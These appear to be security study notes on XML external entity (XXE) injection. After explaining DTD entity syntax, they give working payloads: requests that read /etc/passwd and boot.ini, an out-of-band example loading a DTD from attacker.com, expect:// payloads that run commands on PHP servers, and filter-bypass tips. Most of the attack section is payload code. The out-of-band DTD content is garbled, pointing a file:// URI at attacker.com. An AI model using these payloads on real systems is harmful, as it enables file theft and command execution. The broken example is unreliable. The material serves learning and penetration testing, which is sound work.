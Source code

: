 # XML 

## What is it?
### Internal vs External Entity
Internal Entity: If an entity is declared within a DTD it is called as internal entity. Syntax: `<!ENTITY entity_name "entity_value">`

External Entity: If an entity is declared outside a DTD it is called as external entity. Identified by SYSTEM. Syntax: `<!ENTITY entity_name SYSTEM "entity_value">`

### Basic Syntax
This Document Type Definition (DTD) pulls in a local file using `SYSTEM` keyword
```xml
<!DOCTYPE STRUCTURE [
<!ELEMENT SPECIFICATIONS (#PCDATA)>
<!ENTITY VERSION “1.1”>
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
```
To use it within XML, we can `&file;`:
```xml
<specifications>&file;</specifications>
```

Note: External entities can be used without having a full DTD. Call DTD using square brackets
```xml
<?xml version=”1.0″ encoding=”ISO-8859-1″?>
<!DOCTYPE example [
<!ELEMENT example ANY >
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
<configuration>&file;</configuration>
```

### Types of entities
```xml
<!ENTITY normal "hello"> 

<!ENTITY % component "hello1"> 
<!ENTITY % parameterised "%component;">   --> only parameterised entities can work in other parameterised entities. Value = hello1

<!ENTITY sys SYSTEM "file:///"> --> anything inside SYSTEM var is treated as literal. Cant use %xx here

Instead, embed an enity declaration within another entity declaration
<!ENTITY % sys <!ENTITY SYSTEM "&#x25; test SYSTEM '%component;'>"> --> replaced with <!ENTITY % sys <!ENTITY SYSTEM "&#x25; test SYSTEM 'hello1'>"> 
```

# XXE Attack

An XXE attack is a type of attack against applications that parses XML input and allows XML entities. These entities can be used to tell the parser to fetch specific content on the server.

Idea is to:
* Intercept the vulnerable POST request 
* Place injected ENTITY tag and &xxe variable reference with data that will be stored and displayed
* Send POST request

Example in a POST request
```
POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8
Host: myserver.com

<?xml version=”1.0″ ?>
<!DOCTYPE foo 
[<!ENTITY xxe SYSTEM “file:///etc/passwd” >
]>

<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed &xxe;</body>
</note>
```


## Basic Exploit Payloads:

IN BAND XXE: Accessing a local resource 
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

OUT OF BAND XXE:

Note: `% dtd` is a parameter entry and `send` is a direct entry. 
Parameter entries get replaced by using `%dtd;`

```xml
POST http://example.com/xml HTTP/1.1
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data> 
```

Inside `http://attacker.com/evil.dtd`:

```xml
<!ENTITY send SYSTEM "file:///attacker.com">
```

## Some other URI's to use instead of file: 
```
<!ENTITY xxe SYSTEM "file:////etc/passwd" >]><foo> &xxe; </foo>
<!ENTITY xxe SYSTEM "file:///c:boot.ini" >]><foo> &xxe; </foo>
<!ENTITY xxe SYSTEM "expect://id" >]>
```

[More payloads heree](https://gist.github.com/staaldraad/01415b990939494879b4)

### XXE for Code Exec
**PHP** has a module `expect` thats lets you run commands like they are a file
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "expect://ls" >]>

<foo>&xxe;</foo>

```

## WF Bypass
1. Change encodings (UTF-8, UTF-16, UTF-32)
2. SYSTEM and PUBLIC are synonyms
3. Try going deeper within each file itself
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md